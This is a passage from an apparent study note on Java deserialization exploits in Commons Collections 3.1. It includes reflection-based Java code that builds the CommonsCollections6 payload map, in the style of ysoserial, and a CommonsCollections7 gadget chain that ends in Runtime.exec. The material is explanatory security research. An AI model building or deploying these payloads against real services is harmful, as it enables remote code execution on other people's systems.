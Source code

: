 Step into `hash()`:
```java
static final int hash(Object key) {  
    int h;  
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);  
}
```
If key is a `TiedMapEntry`, then the common exploitation chain takes effect.

So the next step is to put a `TiedMapEntry` into hash map. 
To avoid contaminating `LazyMap` during payload creation, **we should not just call  `map.put` to insert node**. In order to avoid calling `hash(entry)`, there are two alternative ways: by `putVal()` or directly inserting node into underlying hash table(later is what ysoserial does). Let's reproduce the former way(`putVal`). 
```java
final Map innerMap = new HashMap();  
final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);  
TiedMapEntry entry = new TiedMapEntry(lazyMap, "padishah");  
  
HashMap map = new HashMap();  
Method putMethod = null;  
int JDK_VERSION = -1;  
try {  
    putMethod = HashMap.class.getDeclaredMethod("putVal", int.class, Object.class, Object.class, boolean.class, boolean.class);  
    JDK_VERSION = 8;  
} catch (NoSuchMethodException e) {  
    putMethod = HashMap.class.getDeclaredMethod("addEntry", int.class, Object.class, Object.class, int.class);  
    JDK_VERSION = 7;  
}  
putMethod.setAccessible(true);  
int hash = transformerChain.hashCode();// a random hashcode  
if (JDK_VERSION == 8) {  
    putMethod.invoke(map, hash, entry, "value", false, true);  
} else {  
    putMethod.invoke(map, hash, entry, "value", 0);  
}  
Reflections.setFieldValue(transformerChain, "iTransformers", transformers);  
return map;
```
^CC6-1
Note that, `HashMap` for JDK1.7 adds node in a different way from that of JDK1.8. JDK1.7 use `addEntry` in replacement of `putVal`.

### CommonCollections7 jdk1.8 1.7


> [!NOTE] pre-requirements
> JDK1.7 or 1.8, only reproduced on JDK1.8
> commons-collections:commons-collections:3.1

```java
//Gadget chain:
java.util.Hashtable.readObject  
java.util.Hashtable.reconstitutionPut  
org.apache.commons.collections.map.AbstractMapDecorator.equals  
java.util.AbstractMap.equals  
org.apache.commons.collections.map.LazyMap.get  
org.apache.commons.collections.functors.ChainedTransformer.transform  
org.apache.commons.collections.functors.InvokerTransformer.transform  
java.lang.reflect.Method.invoke  
sun.reflect.DelegatingMethodAccessorImpl.invoke  
sun.reflect.NativeMethodAccessorImpl.invoke  
sun.reflect.NativeMethodAccessorImpl.invoke0  
java.lang.Runtime.exec
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)